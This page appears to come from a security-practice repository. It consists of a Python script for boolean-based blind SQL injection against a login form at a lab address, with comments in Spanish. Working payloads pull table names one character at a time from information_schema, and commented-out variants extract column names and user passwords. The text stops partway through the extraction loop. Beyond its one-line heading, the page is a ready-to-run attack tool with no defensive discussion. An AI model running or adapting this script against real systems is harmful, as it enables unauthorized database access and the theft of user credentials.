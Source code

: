 ## Blind SQL script

```python
#!/usr/bin/python3

import os
import sys
import signal
import requests
import string
import time
import urllib3
from pwn import log

url = "http://10.10.10.10/login.php"

def def_handler(sig,frame):
    print("Saliendo")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
all_letters = "_0123456789.:{}" + string.ascii_letters

def check(payload):
    urllib3.disable_warnings()
    s = requests.Session()
    #s.headers.update({
    #    'Cookie' : f"""TrackingId=oXzIpOMlsPJqquRB{payload}; session=KOs6XrgzU90euH5rwRVVXZx0NiFGM0W6"""
    #})
    headers = {
        'Cookie': 'PHPSESSID=tjbr6ggv6fb7evcsfpniqb422k'
    }
    data = {
        'username' : f'{payload}',
        'password' : 'admin'
    }
    s.verify = False
    s.keep_alive = False
    #time_start = time.time()
    r = s.post(url, headers=headers,data=data)
    #time_end = time.time()
    #if time_end - time_start > 10:
    if 'success' in r.text:
        return 1

def query():
    p2 = log.progress("Payload")
    for j in range(0,5): # Modificar el valor para obtener mas dbs,tables,columns,etc.
        name_database = ""
        finish = True
        p1 = log.progress(f"Database {j}")
        #for i in range(0,30): # Postgres SQL
        for i in range(1,30): # MySQL
            found_letter = 0
            for character in all_letters:
                sqli = f"""' AND (SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1 offset {j}),{i},1))='{character}"""
                #sqli = f"""' AND (SELECT SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 offset {j}),{i},1))='{character}"""
                #sqli = f"""' AND (SELECT SUBSTRING((SELECT password FROM users LIMIT 1 offset {j}),{i},1))='{character}"""
```